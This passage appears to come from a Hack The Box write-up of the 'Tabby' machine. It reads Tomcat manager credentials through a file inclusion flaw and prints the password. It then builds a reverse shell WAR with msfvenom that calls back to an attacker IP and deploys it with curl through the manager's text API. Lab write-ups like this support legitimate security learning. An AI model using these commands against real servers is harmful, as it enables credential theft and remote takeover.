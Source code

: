 
So we have a LFI vulnerability and we know that the credentials for the tomcat manager webapp are in the file /etc/tomcat9/tomcat-users.xml and that tomcat is installed in /usr/share/tomcat9. We can install tomcat9 on our system and see where the tomcat-users.xml file will be present.<br>
So the file we want to read is present at /usr/share/tomcat9/etc/tomcat-users.xml.

Let's get the credentials now. We get a blank page but if we view the source code of the page we find that we have successfully found the file and we get the tomcat manager credentials and we can see that we have the roles "admin-gui,manager-script".

<p class= "aligncenter" >
  <img src="/assets/images/tabby-tomcat-users-xml.png" class="center">
</p>
We can't access the manager-gui to upload a malicious WAR file but we still can use curl to upload since we have the manager-script role.
## Using msfvenom to create a WAR file reverse shell.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ msfvenom -p java/jsp_shell_reverse_tcp lhost=10.10.14.9 lport=4444 -f war > sid.war
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 130 bytes
Final size of war file: 1617 bytes
```
Let's upload this with help of curl.
```shell
┌──(sid㉿kali)-[~/…/flags/hackthebox/linux-machines/tabby]
└─$ curl -u 'tomcat':'$3cureP4s5w0rd123!' -T sid.war 'http://10.10.10.194:8080/manager/text/deploy?path=/a.war'
OK - Deployed application at context path [/a.war]
```
Starting up a netcat listner on port 4444. Then visitng "http://10.10.10.194:8080/a.war" to get our reverse shell.